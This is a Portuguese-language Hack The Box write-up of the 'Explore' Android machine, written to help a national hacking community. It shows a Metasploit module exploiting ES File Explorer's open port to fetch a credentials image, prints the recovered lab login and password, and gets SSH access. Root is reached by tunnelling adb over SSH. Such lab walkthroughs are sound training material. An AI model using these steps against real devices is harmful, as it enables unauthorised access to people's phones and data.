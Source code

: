 # Saudações, bem vindos!

### | Write-up by: no0n1 | "Explore" machine | 10.10.10.247 |

O projeto consiste em realizar as máquinas da plataforma Hack the Box, e criar o write-up em português para ajudar a comunidade nacional de hacking! 

Sinta-se livre para colaborar com o projeto.

//Não irei ensinar a conectar no servidor da máquina na plataforma da Hack the Box, mas saiba que é necessário baixar a vpn deles e se conectar, tem um guia no próprio site.

> "Use o conhecimento com sabedoria"

## ENUMERAÇÃO

Como de costume, começaremos um dos processos mais importantes do pentest, a fase de enumeração. Utilizaremos o nmap para isto, devido às suas diversas funcionalidades.	
Numa situação real, para não chamarmos muito a atenção, recomendo salvar o resultado do scan em um arquivo .txt, assim, caso precise relembrar alguma informação, não será necessário fazer outro request para o alvo.
		
![scan](https://user-images.githubusercontent.com/22158061/136661811-199f7f47-d458-4c3f-943a-a1e62fbcfc9c.png)

## EXPLORAÇÃO E EXPLOITATION

Após analisar as portas abertas e possíeis vulnerabilidades, abriremos o Metasploit.

```

 MSFCONSOLE
 use scanner/http/es_file_explorer_open_port
 set RHOSTS 10.10.10.247
 set action LISTPICS
 exploit

```
	
![images](https://user-images.githubusercontent.com/22158061/136662013-6e5cbaf4-5e14-4f9a-967a-bc3d7271c050.png)

Utilizaremos o scanner http do es file explorer, isto pq após pesquisar sobre as informações que coletamos na fase de enumeração, descobri que existe uma falha ai. Dentro deste módulo do Metasploit, é importante saber oq ele faz, vc consegue ver isso dando o comando ``` info ```.
Estimule a curiosidade, pesquise toda a informação que vc achar útil para o ataque. Mexa em tudo, vasculhe tudo. 
Teste todas as ações que o módulo permite, teste todas as possibilidas, foi assim que descobri algo curioso nas imagens.

```

Na barra de url do browser: 10.10.10.247:59777//storage/emulated/0/DCIM/creds.jpg

```

Conseguimos um possível login e senha.

login: kristi

senha: Kr1sT!5h@Rp3xPl0r3!

Vamos tentar uma conexão ssh com esse login e senha.

```

 msf6 > ssh -p 2222 kristi@10.10.10.247

```

![whoami](https://user-images.githubusercontent.com/22158061/136662499-bece1d1f-191f-40e7-8534-5470e057a91b.png)

Conseguimos acesso! Hacked.

```

 ls
 cd /sdcard
 cat user.txt

```

![userFlag](https://user-images.githubusercontent.com/22158061/136662567-e32e8983-502e-4c8e-beba-1a335ce13f46.png)

Reforço a ideia de ser curioso e entrar e mexer em tudo, assim que descobri o arquivo com a flag. Primeira flag pega.

## ESCALANDO PREVILÉGIOS

```

 sudo apt-get install android-tools-adb 

```

ADB é uma ferramenta de comando de texto que nos permite comunicarmos com um aparelho, importante, já que é um android.

```

 ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555 

```

Em outra aba do terminal:

```

 adb connect localhost:5555

 adb shell	

```

![root](https://user-images.githubusercontent.com/22158061/136662752-7d4cf8ba-99e8-42f5-9790-5a76be5d6616.png)

Conseguimos mais uma vez! Acesso escalado. Pawned.

```

 find root.txt /* |grep "root.txt" 	

```

![findRootTxt](https://user-images.githubusercontent.com/22158061/136662892-038d1828-781e-4def-9e47-ac2382c7998c.png)

```

 cat /data/root.txt

```

![rootFlag](https://user-images.githubusercontent.com/22158061/136662908-77491602-4443-4f20-a143-89d3dca6832f.png)

Como geralmente a flag fica dentro de um arquivo root.txt, dei o comando para pesquisar onde estaria esse arquivo. Por sorte conseguimnos o caminho da segunda flag. 

## Obrigado por acompanhar, este é o primeiro. Pretendo continuar com outras máquinas e aumentando a dificuldade ao passar do tempo.

Até a próxima!


